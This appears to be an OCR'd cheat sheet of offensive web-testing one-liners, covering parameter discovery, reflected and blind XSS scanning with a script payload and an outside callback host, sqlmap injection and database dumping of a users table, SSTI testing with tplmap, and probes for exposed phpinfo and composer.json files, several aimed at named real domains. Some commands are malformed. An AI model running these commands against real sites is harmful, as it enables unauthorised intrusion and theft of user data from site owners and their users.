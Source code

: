 python3 paramspider.py --domain indrive.com

python3 paramspider.py --domain https://cpcalendars.cartscity.com --exclude woff,css,js,png,svg,php,jpg --output g.txt

cat indrive.txt | kxss  ( looking for reflected :-  "<> )

Looking for Hidden parameters :-
Arjun :-

arjun -u https://44.75.33.22wms/wms.login -w burp-parameter-names.txt

waybackurls youneedabudget.com | gf xss | grep '=' | qsreplace '"><script>confirm(1)</script>' | while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo "$host \033[0;31mVulnerable\n";done

dalfox url https://access.epam.com/auth/realms/plusx/protocol/openid-connect/auth?response_type=code -b https://hahwul.xss.ht

dalfox file urls.txt -b https://hahwul.xss.ht

echo "https://target.com/some.php?first=hello&last=world" | Gxss -c 100

cat urls.txt | Gxss -c 100 -p XssReflected

Sql Injection :-
echo https://www.recreation.gov | waybackurls | grep "?" | uro | httpx -silent > param.txt

cat subdomains.txt | waybackurls | grep "?" | uro | httpx -silent > param.txt

sqlmap -m param.txt --batch --random-agent --level 1 | tee sqlmap.txt

sqlmap -u https://my.easyname.at/en/login --dbs --forms --crawl=2

SQLi One Linear :-
cat target.com | waybackurls | grep "?" | uro | httpx -silent > urls;sqlmap -m urls --batch --random-agent --level 1 | tee sqlmap.txt

subfinder -dL domains.txt | dnsx | waybackurls | uro | grep "?" | head -20 | httpx -silent > urls;sqlmap -m urls --batch --random-agent --level 1 | tee sqlmap.txt

Dump-Data :-
sqlmap -u http://testphp.vulnweb.com/AJAX/infocateg.php?id=1 --dbs  (Databases)

sqlmap -u http://testphp.vulnweb.com/AJAX/infocateg.php?id=1 --tables -D acuart (Dump DB tables )

sqlmap -u http://testphp.vulnweb.com/AJAX/infocateg.php?id=1 --columns -T users (Dump Table Columns )

sqlmap -u http://testphp.vulnweb.com/AJAX/infocateg.php?id=1 --dump -D acuart -T users

SSTI :-
FOR Testing SSTI and tplmap tool :-

git clone https://github.com/epinna/tplmap.git

./tplmap.py -u "domain.com/?parameter=SSTI*"

httpx -l live_subs.txt --status-code --title -mc 200 -path /phpinfo.php

httpx -l live_subs.txt --status-code --title -mc 200 -path /composer.json
